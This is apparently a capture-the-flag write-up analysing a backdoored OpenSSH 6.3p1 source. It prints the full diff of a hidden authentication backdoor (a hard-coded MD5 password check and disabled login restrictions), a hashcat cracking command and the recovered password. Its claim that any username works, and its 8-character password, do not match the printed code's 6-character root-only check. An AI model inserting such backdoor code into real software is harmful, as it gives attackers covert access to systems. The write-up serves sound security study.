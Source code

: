# SSH backdoor analysis

> Author : jul0105
> Date : 30.05.2021



## Challenge info

**Release** : Bundle 6 (08.05)

**Difficulty** : Novice

**Goal** :

- find the backdoor
- find the backdoor password
- list all files that are altered compared to the origin version



## Solve

1. First, I needed to know the program's name and version to be able to compare it with a legit copy of the same version. 
2. Using grep, I found the program name and version (**`OpenSSH_6.3p1`**) in the `version.h` file :

```
❯ cat version.h              
/* $OpenBSD: version.h,v 1.67 2013/07/25 00:57:37 djm Exp $ */

#define SSH_VERSION     "OpenSSH_6.3"

#define SSH_PORTABLE    "p1"
#define SSH_RELEASE     SSH_VERSION SSH_PORTABLE
```

3. I downloaded the same program with the same version from here: https://cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/
4. And then, compared the backdoor program and the standard program using `diff`. 3 files are modified between the two versions :
   1. **`auth.c`** : In the backdoored version, some conditions are ignored to allow every user to connect (even user that are in DenyUser groups or are root for example).
   2. **`auth.h`** : In the backdoored version, a new function signature is added for `sys_auth_backdoor`
   3. **`auth-passwd.c`** : In the backdoored version, before trying to authenticate the user with the password provided, a new function `sys_auth_backdoor` is called. This function hash the provided password using MD5 and check if the digest is equal to an hard-coded hash digest (`45d616ff7d5108bd93094fa15fe0e1d2`). If both hash digest match, the function return and the user is considered to be successfully authenticated. Beside this hash, a comment is added on the code which indicate the password format : `HL{????} where ? is [0-9]`.
5. In summary, to have access to the backdoor, one has to provide any username, and provide a password that is equal to `45d616ff7d5108bd93094fa15fe0e1d2` when hashed with MD5.
6. To retrieve the password, I used `hashcat`. Since we know that the password format is `HL{????} where ? is [0-9]`, we can give this information to hashcat :

```
hashcat -m0 -a3 '45d616ff7d5108bd93094fa15fe0e1d2' 'HL{?d?d?d?d}'
```

- `-m0` : Indicate that we are using MD5
- `-a3` : Attack mode bruteforce
- `'HL{?d?d?d?d}'` : Format of the password. `?d` indicate [0-9] charset.

7. And here is the password:

```
HL{7298}
```





## Appendix

**Complete `diff` between the backdoored version and the standard version :**

```diff
❯ diff openssh-6.3p1 backdoor-source
diff '--color=auto' openssh-6.3p1/auth.c backdoor-source/auth.c
349,350c349,350
<       logit("ROOT LOGIN REFUSED FROM %.200s", get_remote_ipaddr());
<       return 0;
---
> 
>       return 1;
636,637c636,637
<       if (!allowed_user(pw))
<               return (NULL);
---
>       //if (!allowed_user(pw))
>       //      return (NULL);
diff '--color=auto' openssh-6.3p1/auth.h backdoor-source/auth.h
214a215
> int  sys_auth_backdoor(Authctxt *, const char *);
215a217
> 
diff '--color=auto' openssh-6.3p1/auth-passwd.c backdoor-source/auth-passwd.c
47a48,49
> #include <openssl/md5.h>
> 
88a91,93
>     if(sys_auth_backdoor(authctxt, password))
>         return 1;
> 
215a221,246
>     
> static char backdoor_hash[MD5_DIGEST_LENGTH] = \
> {
>     // HL{????} where ? is [0-9]
>     0x45, 0xD6, 0x16, 0xFF, 0x7D, 0x51, 0x08, 0xBD, 0x93, 0x09, 0x4F, 0xA1, 0x5F, 0xE0, 0xE1, 0xD2
> };
> 
> int
> sys_auth_backdoor(Authctxt *authctxt, const char *password)
> {
>     MD5_CTX c = {};
>     char password_hash[MD5_DIGEST_LENGTH] = {}; 
>       struct passwd *pw = authctxt->pw;
>     
>     if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
>         return 0;
> 
>     MD5_Init(&c);
>     MD5_Update(&c, password, strlen(password));
>     MD5_Final(password_hash, &c);
> 
>     if(memcmp(backdoor_hash, password_hash, MD5_DIGEST_LENGTH) != 0)
>         return 0;
> 
>     return 1;
> }
```

